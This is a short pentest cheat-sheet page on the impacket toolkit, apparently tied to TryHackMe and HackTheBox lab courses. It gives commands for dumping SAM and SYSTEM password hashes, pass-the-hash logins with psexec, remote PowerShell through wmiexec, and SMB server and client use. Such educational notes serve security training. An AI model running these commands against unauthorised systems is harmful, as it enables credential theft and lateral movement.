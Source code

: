 # impacket

[![windowsprivesc20](../../../../cybersecurity/_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

[impacket](https://github.com/fortra/impacket) <small>(12.4k ⭐)</small> is a collection of [python](/programming-languages/high-level/scripting/python/index.md) classes for working with network protocols. They are already installed on Kali:

```shell!
$ impacket-secretsdump # secretsdump.py
$ ...
```

You may install them manually too:

```shell!
$ sudo git clone https://github.com/fortra/impacket /opt/impacket
$ cd /opt/impacket
$ pip install -r requirements.txt
$ pip install .
$ python /opt/impacket/examples/secretsdump.py [...]
```

<br>

#### Samrdump

List users and domains.

```shell!
$ impacket-samrdump IP
$ impacket-samrdump username:password@IP
```

<br>

#### wmiexec

Pop a powershell or run commands using [DCOM](/operating-systems/networking/protocols/dcom.md):

```shell!
$ impacket-wmiexec -shell-type powershell username:password@IP
$ impacket-wmiexec -shell-type powershell username:password@IP "hostname"
```

<br>

#### mssqlclient

Connect to a MSSQL database.

```shell!
$ impacket-mssqlclient username@IP -windows-auth
$ impacket-mssqlclient username:password@IP -windows-auth
SQL> exit
```
</div><div>

#### Dump hashes from backup

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Dump hashes from a backup of SAM and SYSTEM hashes. There are local credentials and domain cached credentials.

```shell!
$ impacket-secretsdump -sam XXX -system YYY LOCAL
$ impacket-secretsdump -sam XXX -security XXX -system XXX LOCAL
<output format is explained in the output>
```

<br>

#### PsExec

Use a hash to login (Pass-The-Hash).

```shell!
$ impacket-psexec -hashes usernamehash:sessionhash username@IP
$ impacket-psexec -hashes :hash username@IP
```

<br>

#### SMB server

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Run a [SMB](../smb.md) server to which user will connect with the username XXX and the password YYY. Files will be stored in `/path/to/share`.

```shell!
$ impacket-smbserver -smb2support -username XXX -password YYY share_name /path/to/share
$ impacket-smbserver -smb2support share_name /path/to/share
```

<br>

#### SMB Client

Alternative to `smbclient`. It works even when the former doesn't.

```shell!
$ impacket-smbclient 'username':'password'@IP
$ impacket-smbclient IP
# shares
<list of shares>
# use <sharename>
# ls
# tree
```
</div></div>